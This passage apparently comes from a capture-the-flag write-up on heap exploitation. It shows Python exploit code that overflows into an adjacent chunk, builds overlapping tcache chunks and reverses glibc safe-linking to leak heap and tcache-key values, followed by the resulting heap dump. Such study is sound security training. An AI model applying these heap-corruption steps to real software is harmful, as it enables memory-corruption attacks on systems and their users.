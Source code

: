 ```python

# Set size to 0
for i in range(0x4):
    pop() 

shrink() # Shrink to trigger the bug
shrink() # Shrink twice to switch chunks

for i in range(0x3):
    push(convert(i+1)) 

push(convert(0x41)) # Overflow into next size
pop() # Pop
shrink() # Malloc into Overlapped chunk
push(convert(0x41)) # Do the setup for overlap
push(convert(0x5)) # next ptr
push(convert(0x6)) # tcache random number
shrink() # Shrink to switch and set up the leak

# Get the Leaks by popping.
randleak = eval(pop())
heapleak = eval(pop()) << 12 # Safe Linking Reversal
info(f'Heapleak: 0x{heapleak:02x}')
info(f'Randleak: 0x{(randleak & ~0):02x}')
```
{% endcode %}

Output:

```bash
0x564173c8a300  0x0000000000000003      0x0000000000000041      ........A....... #--> Overflown Chunk
0x564173c8a310  0x0000000000000001      0x0000000000000002      ................
0x564173c8a320  0x0000000000000003      0x0000000000000041      ........A....... #--> Overlapped Chunk
0x564173c8a330  0x0000000564173c8a      0x8fe726c9dc7a332d      .<.d....-3z..&..         <-- tcachebins[0x40][0/1]
0x564173c8a340  0x0000000000000003      0x0000000000000041      ........A.......
0x564173c8a350  0x0000000000000005      0x0000000000000006      ................
0x564173c8a360  0x0000000000000000      0x0000000000020ca1      ................         <-- Top chunk
0x564173c8a370  0x0000000000000000      0x0000000000000000      ................
```

```python
[*] Heap leak: 0x564173c8a000
[*] Rand leak: 0x8fe726c9dc7a332d
```

Got it!

***

## Leaking libc address
